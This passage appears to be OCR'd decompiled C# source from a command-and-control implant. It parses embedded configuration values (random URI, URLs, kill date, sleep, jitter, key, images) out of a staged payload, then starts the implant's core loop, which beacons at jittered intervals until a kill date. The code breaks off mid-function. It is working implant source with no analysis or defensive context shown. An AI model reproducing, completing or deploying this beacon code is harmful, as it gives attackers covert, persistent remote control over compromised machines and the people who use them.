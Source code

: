 ```cs
		}
		Regex regex = new Regex("RANDOMURI19901(.*)10991IRUMODNAR");
		Match match = regex.Match(text2);
		string text9 = match.Groups[1].ToString();
		regex = new Regex("URLS10484390243(.*)34209348401SLRU");
		match = regex.Match(text2);
		string text10 = match.Groups[1].ToString();
		regex = new Regex("KILLDATE1665(.*)5661ETADLLIK");
		match = regex.Match(text2);
		string text11 = match.Groups[1].ToString();
		regex = new Regex("SLEEP98001(.*)10089PEELS");
		match = regex.Match(text2);
		string text12 = match.Groups[1].ToString();
		regex = new Regex("JITTER2025(.*)5202RETTIJ");
		match = regex.Match(text2);
		string text13 = match.Groups[1].ToString();
		regex = new Regex("NEWKEY8839394(.*)4939388YEKWEN");
		match = regex.Match(text2);
		string text14 = match.Groups[1].ToString();
		regex = new Regex("IMGS19459394(.*)49395491SGMI");
		match = regex.Match(text2);
		string text15 = match.Groups[1].ToString();
		Program.ImplantCore(text3, text9, text10, text11, text12, text14, text15, text13);
	}
}
```

`ImplantCore()`
```cs
private static void ImplantCore(string baseURL, string RandomURI, string stringURLS, string KillDate, string Sleep, string Key, string stringIMGS, string Jitter)
{
	Program.UrlGen.Init(stringURLS, RandomURI, baseURL);
	Program.ImgGen.Init(stringIMGS);
	Program.pKey = Key;
	int num = 5;
	Regex regex = new Regex("(?<t>[0-9]{1,9})(?<u>[h,m,s]{0,1})", RegexOptions.IgnoreCase | RegexOptions.Compiled);
	Match match = regex.Match(Sleep);
	if (match.Success)
	{
		num = Program.Parse_Beacon_Time(match.Groups["t"].Value, match.Groups["u"].Value);
	}
	StringWriter stringWriter = new StringWriter();
	Console.SetOut(stringWriter);
	ManualResetEvent manualResetEvent = new ManualResetEvent(false);
	StringBuilder stringBuilder = new StringBuilder();
	double num2 = 0.0;
	if (!double.TryParse(Jitter, NumberStyles.Any, CultureInfo.InvariantCulture, out num2))
	{
		num2 = 0.2;
	}
	while (!manualResetEvent.WaitOne(new Random().Next((int)((double)(num * 1000) * (1.0 - num2)), (int)((double)(num * 1000) * (1.0 + num2)))))
	{
		if (DateTime.ParseExact(KillDate, "yyyy-MM-dd", CultureInfo.InvariantCulture) < DateTime.Now)
		{
			Program.Run = false;
			manualResetEvent.Set();
		}
		else
		{
			stringBuilder.Length = 0;
```